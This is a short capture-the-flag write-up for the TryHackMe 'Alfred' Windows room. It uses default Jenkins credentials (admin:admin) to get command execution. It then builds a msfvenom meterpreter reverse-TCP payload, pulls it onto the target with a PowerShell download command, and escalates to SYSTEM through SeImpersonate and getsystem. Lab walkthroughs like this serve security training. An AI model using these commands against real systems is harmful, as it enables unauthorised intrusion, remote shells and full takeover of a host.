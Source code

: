 # THM: Alfred
# OS: Windows
# Difficulty: Easy

### Foothold

[WEB]
**Port 8080**
- Weak creds are in use:
  admin:admin
- Found RCE
  1. Navigate -> http://$ip:8080/view/all/job/project
  2. Change the command run on build from `Configure`
  3. Build project

### PrivEsc

**Get meterpreter shell**
1. Start msfconsole:
  `sudo msfconsole`
2. Use multi/handler:
  `use exploit/multi/handler`
3. Change the payload type and options than run
  `set payload windows/x64/meterpreter/reverse_tcp`
  ...
  `run`
4. Create a payload:
  `msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 shikata_ga_nai LHOST=tun0 LPORT=[PORT] -f exe -o shell.exe`
5. Transfer the payload:
  `powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell.exe','shell.exe')"`
6. Run the payload:
  `.\shell.exe`
7. You will get a meterpreter shell

[ENUM]
1. `whoami /priv`
  We have `SeImpersonate` privilege, we can try to get system with meterpreter's `getsystem`
  
[EXPLOIT]
2. `getsystem`
